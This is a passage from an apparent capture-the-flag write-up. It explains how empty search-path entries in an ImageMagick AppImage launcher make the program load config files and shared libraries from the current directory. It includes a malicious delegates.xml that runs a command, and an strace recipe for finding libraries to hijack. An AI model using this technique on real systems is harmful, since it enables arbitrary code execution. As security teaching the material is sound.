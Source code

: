 You can see that there's a strange `::` at the beginning of the `MAGICK_CONFIGURE_PATH`, also `MAGICK_CONFIGURE_PATH` and `LD_LIBRARY_PATH` end with `:`. Why?

In the code above, the version number is hardcoded in the path to `7.0.9`. If `$HERE/usr/lib/ImageMagick-7.0.9/` does not exist, `readlink -f "$HERE/usr/lib/ImageMagick-7.0.9/config-Q16"` or `readlink -f "$HERE/usr/lib/ImageMagick-7.0.9/config-Q16HDRI"` will return an empty path.

Additionally, if `MAGICK_CONFIGURE_PATH` and `LD_LIBRARY_PATH` are not set before these lines, `AppRun` will append an empty path to `MAGICK_CONFIGURE_PATH` and `LD_LIBRARY_PATH`.

What can go wrong with this?

Well, when the search path in these environment variables is an empty path, it actually means that the search path for config and shared library is the **current working directory**!

So if this is the `delegates.xml` in the cwd:
```xml
<delegatemap><delegate xmlns="" decode="XML" command="id"/></delegatemap>
```

By running this command:
```bash
magick delegates.xml out.png 2>/dev/null
```

You should see the output of `id`!

But this won't work in this challenge's environment because we are using the strict [policy.xml](https://imagemagick.org/source/policy-secure.xml) to prevent any delegates.

Fortunately, by loading shared libraries in the current directory, we can still achieve code execution!

If you `strace -f magick /dev/null /dev/null 2>&1 | grep -v '/' | grep 'No such' | grep '\.so'`, you should see `magick` failed to open many shared libraries in the current directory:
```console
$ strace -f magick /dev/null /dev/null 2>&1 | grep -v '/' | grep 'No such' | grep '\.so'
[pid  3463] openat(AT_FDCWD, "libc.so.6", O_RDONLY|O_CLOEXEC) = -1 ENOENT (No such file or directory)
[pid  3455] openat(AT_FDCWD, "libc.so.6", O_RDONLY|O_CLOEXEC) = -1 ENOENT (No such file or directory)
[pid  3455] openat(AT_FDCWD, "libfontconfig.so.1", O_RDONLY|O_CLOEXEC) = -1 ENOENT (No such file or directory)
[pid  3455] openat(AT_FDCWD, "libfreetype.so.6", O_RDONLY|O_CLOEXEC) = -1 ENOENT (No such file or directory)
[pid  3455] openat(AT_FDCWD, "libX11.so.6", O_RDONLY|O_CLOEXEC) = -1 ENOENT (No such file or directory)
[pid  3455] openat(AT_FDCWD, "libz.so.1", O_RDONLY|O_CLOEXEC) = -1 ENOENT (No such file or directory)
[pid  3455] openat(AT_FDCWD, "libm.so.6", O_RDONLY|O_CLOEXEC) = -1 ENOENT (No such file or directory)
[pid  3455] openat(AT_FDCWD, "libpthread.so.0", O_RDONLY|O_CLOEXEC) = -1 ENOENT (No such file or directory)
[pid  3455] openat(AT_FDCWD, "libgcc_s.so.1", O_RDONLY|O_CLOEXEC) = -1 ENOENT (No such file or directory)
[pid  3455] openat(AT_FDCWD, "libharfbuzz.so.0", O_RDONLY|O_CLOEXEC) = -1 ENOENT (No such file or directory)
[pid  3455] openat(AT_FDCWD, "libfribidi.so.0", O_RDONLY|O_CLOEXEC) = -1 ENOENT (No such file or directory)
[pid  3455] openat(AT_FDCWD, "libstdc++.so.6", O_RDONLY|O_CLOEXEC) = -1 ENOENT (No such file or directory)
[pid  3455] openat(AT_FDCWD, "libexpat.so.1", O_RDONLY|O_CLOEXEC) = -1 ENOENT (No such file or directory)
[pid  3455] openat(AT_FDCWD, "libuuid.so.1", O_RDONLY|O_CLOEXEC) = -1 ENOENT (No such file or directory)
[pid  3455] openat(AT_FDCWD, "libbrotlidec.so.1", O_RDONLY|O_CLOEXEC) = -1 ENOENT (No such file or directory)
[pid  3455] openat(AT_FDCWD, "libdl.so.2", O_RDONLY|O_CLOEXEC) = -1 ENOENT (No such file or directory)
```
